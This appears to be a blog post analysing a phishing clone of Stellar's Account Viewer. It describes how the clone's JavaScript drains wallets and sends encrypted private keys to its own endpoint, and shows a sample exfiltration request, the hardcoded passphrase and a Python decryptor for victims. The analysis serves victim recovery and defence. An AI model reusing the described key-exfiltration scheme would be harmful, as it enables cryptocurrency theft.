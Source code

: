```yaml
---
layout: post
title: XLM Account Viewer phishing
---
```


The following address: **hxxp://accountviewer.stellar.org.ge** is a malicious clone attacking stellar users.

It all starts with a phishing email:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/phshing.jpg)
{: refdef}

Quickly checking the mail headers reveals suspicious details:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/headers.png)
{: refdef}


The send is **no-reply@annfinance.co.uk**, which seems to be a legitimate company with records dating from at least 2016. This company however does not seems to have any link with Stellar whatsoever. It is plausible that their mail accounts have been compromised in order to perform phishing attacks.

The mail's body contains a link to Stellar's account viewer page, which looks exactly like the original, as it was probably forked using [AccountViewer v2](https://github.com/stellar/account-viewer-v2), except that the domain is stellar.org.ge instead of stellar.org:

| ![_config.yml]({{ site.baseurl }}/images/xlm/clone.png) | 
|:--:| 
| *Clone Website* |

| ![_config.yml]({{ site.baseurl }}/images/xlm/legit.png) | 
|:--:| 
| *Original Website* |


The TLS certificate is also not issued by the same CA, which is usually very fishy, especially if it comes from Let's Encrypt, as they are free, and easy to deploy:


| ![_config.yml]({{ site.baseurl }}/images/xlm/clonecert.png) | 
|:--:| 
| *Let's Encrypt clone certificate* |



| ![_config.yml]({{ site.baseurl }}/images/xlm/legitcert.png) | 
|:--:| 
| *Original Sectigo certificate* |


Even the domain's DNS records look nothing like the original Stellar's site, which is protected by Cloudflare:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/dns.png)
{: refdef}

This is a pretty good indication that the two domains are not controlled by the same entity.

The page offers to create a wallet for sending XLM. After reading the modified Javascript code, we found out what it was doing:

* Wait until the wallet reaches 15k XLM
* Create a new private/public key pair using stellar sdk
* Trigger a wire transfer to the newly created wallet
* Save a transaction's history containing the **wallet's private key**

By sending the private key to **/api/gdata**, the rogue site ensures they keep their hands on all the accounts where the XLM has been transfered.

The source file responsible for the account creation can be found here:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/sources.png)
{: refdef}

The algorithm generates a JSON payload of the following form:

```json
{"ffatale":"BLOBBLOB 97023.3555 => SCT62N4GYPBBTJCMGSHGEUTJNCXXCULPSYFFYAS6D5H62HD7SQF6RFZS"}
```

Then, the javascript source encrypts the json array using AES and a harcoded passphrase:

{:refdef: style="text-align: center;"}
![_config.yml]({{ site.baseurl }}/images/xlm/js.png)
{: refdef}

The request, as received by **/api/gdata** should look something like this:

```http
POST /api/gdata HTTP/1.1
Host: "accountviewer.stellar.org.ge
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.17 (KHTML, like Gecko) Chrome/24.0.1312.60 Safari/537.17
Accept-Encoding: gzip, deflate, br
Accept: application/json
Connection: keep-alive
Content-Type: application/json
Content-Length: 152

U2FsdGVkX1+uqjVGvPpGo9olPeF8kF2E24710Lrxv29L97NEwnBgjs4PTZYp/DZCxTwejlDV0ynYF+Q8ZAVaAediKyfVztZJbM/DBE+HvoV6Su0SEQJCBGNBTaVSfFx9FmqN+YxZv9eZkpLbR8H6kA==
```

## If you have NOT closed your browser, or rebooted your computer since the transaction was done

As the request containing the private key is sent from your browser, it **might** still reside somewhere in the process's memory. Using GDB on Mac or Linux, and ProcDump on Windows, it is possible to dump your browser's memory. Once that is done, look for specific strings that could match the request, like "/api/gdata", or "accountviewer.stellar.org.ge".

For instance, with Linux:

```bash
gcore -a <browser_pid>
strings core.bin|grep "/api/gdata"
```
Note that it is possible to dump the memory by tab, as they are forked into separate processes. If you want a cleaner memory dump, easier to parse, and you havent closed the tab where the transacation was made, you can go to ```about:config``` and get the PID of the specific tab. You can then proceed to dump it's memory and investigate it.


If you find the request containing the base64 encrypted data blob, **DO NOT** under any circumstance, communicate it to anyone (even us), in order to decrypt it. Instead, decrypt it with the following python program:

```python
from Cryptodome import Random
from Cryptodome.Cipher import AES
from hashlib import md5
import base64
import hashlib

def pad(data):
    length = BLOCK_SIZE - (len(data) % BLOCK_SIZE)
    return (data + (chr(length)*length)).encode()

def unpad(data):
    return data[:-(data[-1] if type(data[-1]) == int else ord(data[-1]))]

def bytes_to_key(data, salt, output=48):
    # extended from https://gist.github.com/gsakkis/4546068
    assert len(salt) == 8, len(salt)
    data += salt
    key = md5(data).digest()
    final_key = key
    while len(final_key) < output:
        key = md5(key + data).digest()
        final_key += key
    return final_key[:output]

def encrypt(message, passphrase):
    salt = Random.new().read(8)
    key_iv = bytes_to_key(passphrase, salt, 32+16)
    key = key_iv[:32]
    iv = key_iv[32:]
    aes = AES.new(key, AES.MODE_CBC, iv)
    return base64.b64encode(b"Salted__" + salt + aes.encrypt(pad(message)))

def decrypt(encrypted, passphrase):
    encrypted = base64.b64decode(encrypted)
    assert encrypted[0:8] == b"Salted__"
    salt = encrypted[8:16]
    key_iv = bytes_to_key(passphrase, salt, 32+16)
    key = key_iv[:32]
    iv = key_iv[32:]
    aes = AES.new(key, AES.MODE_CBC, iv)
    return unpad(aes.decrypt(encrypted[16:]))

if __name__=="__main__":
    BLOCK_SIZE = 16
    passphrase = "lomzarstiimissulilzinsomedayillcometouintheotherdimension".encode()
    cipher = 'your_base64_data'
    print(decrypt(cipher, passphrase))
```

Once you have the private key, you have control over the wallet, and you can recover your losses.

## If you have closed your browser, rebooted your computer, or used a phone:

It is very likely that it is very complicated, or impossible, to retrieve traces of the malicious destination wallet. In case the phone was rooted, there might be a chance by dumping the browser's memory using [LiME](https://github.com/504ensicsLabs/LiME).


### Links

https://www.xmodulo.com/find-process-id-chrome-browser-tab.html#:~:text=Alternatively%2C%20you%20can%20also%20press,each%20tab%20or%20active%20extension.
https://github.com/504ensicsLabs/LiME
https://stackoverflow.com/questions/36762098/how-to-decrypt-password-from-javascript-cryptojs-aes-encryptpassword-passphras
